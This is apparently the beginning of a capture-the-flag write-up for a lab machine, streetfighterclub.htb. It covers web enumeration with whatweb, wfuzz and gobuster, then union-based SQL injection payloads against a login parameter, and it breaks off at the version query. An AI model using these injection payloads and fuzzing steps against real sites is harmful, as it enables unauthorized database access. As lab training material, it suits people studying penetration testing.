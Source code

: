 **Skills Required**
● Intermediate knowledge of Web
application enumeration techniques
● Intermediate knowledge of SQL
injection techniques
● Intermediate knowledge of Windows
● Intermediate knowledge of
disassembly
**Skills Learned**
● Advanced SQL injection technique and
blacklist bypassing
● AppLocker bypassing
● Command-line obfuscation
● Exploit selection and modification
● Post-exploitation enumeration
● Reverse engineering

Port (80)

this machine only has port 80 open, so it's all about enumerate and try to exploit some vulnerabilities on the website

I started whit the whatweb tool to gather information
``` bash
whatweb 10.10.10.72
```

Now I checked the website in the browser, there is a lot of text, but looking closely, I found information that could be useful, some hints and a doman name, so I save it in my hosts file

I'll fuzz paths, files and subdomains using wfuzz
``` bash
wfuzz -c --hc=404 -t 200 -w /wordlist http://streetfighterclub.htb/FUZZ

wfuzz -c --hc=404 --hh=6911 -t 200 -w /wordlist -H "Host: FUZZ.streetfighterclub.htb" http://streetfighterclub.htb/
```

Wfuzz found a subdomain named "members"
I use wffuuz again to fuzz the paths and files in this new URL
``` bash
wfuzz -c --hc=404  -w /wordlist http://members.streetfighterclub.htb/FUZZ/
``` 

Wfuzz discoverd a directory called "old", so i check it on the website but I  get an access denied, so I'm gonna use gobuster this time to fuzz for .asp files, I'm gonna do this because the server is an ASP.NET
``` bash
gobuster dir -u http://members.streetfighterclub.htb/old/ -w worlist -x asp,aspx
``` 

Gobuster retriev a login file, checking this in the website es a login panel
I'm going to try a sql injection using burpsuite
``` bash
logintype=2 order by 100-- -
logintype=2 order by 6-- 
logintype=2 union select 1,2,3,4,5,6-- - -> in the response I get the number that I use to inject the queryes
logintype=2 union select 1,2,3,4,@version,6-- -
```
